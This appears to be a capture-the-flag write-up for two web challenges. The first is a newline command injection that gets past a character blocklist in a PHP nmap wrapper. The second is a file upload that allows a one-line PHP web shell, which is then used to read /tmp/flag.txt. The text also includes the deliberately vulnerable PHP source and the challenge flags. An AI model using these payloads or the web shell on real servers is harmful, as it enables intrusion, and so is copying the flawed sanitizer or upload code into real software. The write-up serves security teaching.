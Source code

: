 ##Challenge 4
Challenge 4 does an Nmap scan on port 80 and 443 of any server that you give it. The service also disallows the following characters: ";","|","&","`","$", "(", “)”. This leaves the new line character. To solve the challenge, the following input would display /tmp/flag.txt:

```google.com%0Acat /tmp/flag.txt```

For obvious reasons, the new line character needs to be encoded to %0A. During the CTF several others were able to solve this challenge by passing the flag file into a script. If this is how you solved it, great job! But you did solve it the more difficult way 😊.

flag{IJustMadeUpANewWord:Plagiarism.}

###Code

```php
<?php
$userInput = $_GET["domain"];
$sanitizers = [";","|","&","`","$", "(", ")"];
$command = "nmap -p 80,443 " . $userInput;
$safe = false;
foreach($sanitizers as $sanatizer){
    if(strstr(strtolower($userInput), strtolower($sanatizer))!='') {
        echo "Yo! Don't hack me.... please";
        $safe = false;
        break;
    }else{
        $safe = true;
    }
}
if ($safe){
    exec($command,$output);
    foreach ($output as $line) {
        echo $line;
        echo '</br>';
    }
}
?>
```

##Challenge 5
Challenge 5 allows you to “scan” a file to check if its a virus or not (all it really did was check if the file ended with a .exe or .dmg 😊). For this challenge you are able to upload any file and re-download it. However, this allows you to upload a PHP back doors. To exploit this, simply upload any file ending in “.php” with the following content:

```<?php exec($_GET["cmd"],$output); print_r($output); ?>```

The command above is a super simple PHP back door that will print the entire output of a command. Once the file is uploaded, visit the file with the link provided and add ```?cmd=cat%20/tmp/flag.txt``` to the end of the request.

flag{RipBoilingWater,YouWillBeMist}

###Code
```php
<?php
$stoage_name = hash('sha256', random_bytes(256));
$currentDir = getcwd();
$uploadDirectory = "/uploads/";

$errors = []; // Store all foreseen and unforseen errors here

$fileExtensions = ['exe','dmg']; // Get all the file extensions

$fileName = $_FILES['userfile']['name'];
```
